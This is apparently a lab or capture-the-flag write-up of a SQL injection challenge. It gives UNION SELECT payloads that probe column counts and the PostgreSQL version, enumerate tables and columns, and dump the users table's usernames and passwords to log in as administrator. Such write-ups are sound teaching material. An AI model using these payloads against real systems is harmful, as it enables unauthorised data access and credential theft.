 ```sql
' UNION SELECT version()--
' UNION SELECT null,version()--
' UNION SELECT version(),null--
' UNION SELECT null,null,version()--
' UNION SELECT null,version(),null--
' UNION SELECT version(),null,null--
```

### Vulnerability Assessment
- We use burp intruder and the paylaod above to check SQLi, the number of columns that is displayed and the column that allows for string.

![[Pasted image 20220824150311.png]]
![[Pasted image 20220824150335.png]]

- From the results, above, we filter for `200 OK` responses and found out that there are only 2 columns and the second column is the one that can accept strings.

### Database Enumeration
#### Enumerating Database Version
- In the same burp intruder "attack", we also injected various kind of "version" to enumerate the database version. From the enumeration, we know that PostgreSQL is used.

![[Pasted image 20220824150904.png]]

#### Enumerating Tables in Database
- After ascertaining database version, we send the payload below to enumerate the schema to check for non-default tables. We have to use string concatenation as only one column is available. 

```
' UNION SELECT null,table_name||'-'||table_type FROM information_schema.tables--
```

- We found that there is an interesting "users" table that is non-default. 

![[Pasted image 20220824151832.png]]

#### Enumerating Columns in "users" Table
- We then continued to enumerate the columns that are in the "users" table with the payload below. 

```
' UNION SELECT null,column_name || '-' || data_type FROM information_schema.columns WHERE table_name = 'users' --
```

- We find out that there are only two columns in the "users" table - "password" and "username"

![[Pasted image 20220824152147.png]]

### Exploitation
- We finish by using the payload below to enumerate all the rows in the username and password columns.

```
' UNION SELECT null, username || '-' || password FROM users --
```

- As can be seen below, we get the username and passwords of `administrator`.

![[Pasted image 20220824152304.png]]

- We logged into the administrator account to finish the challenge.

![[Pasted image 20220824152402.png]]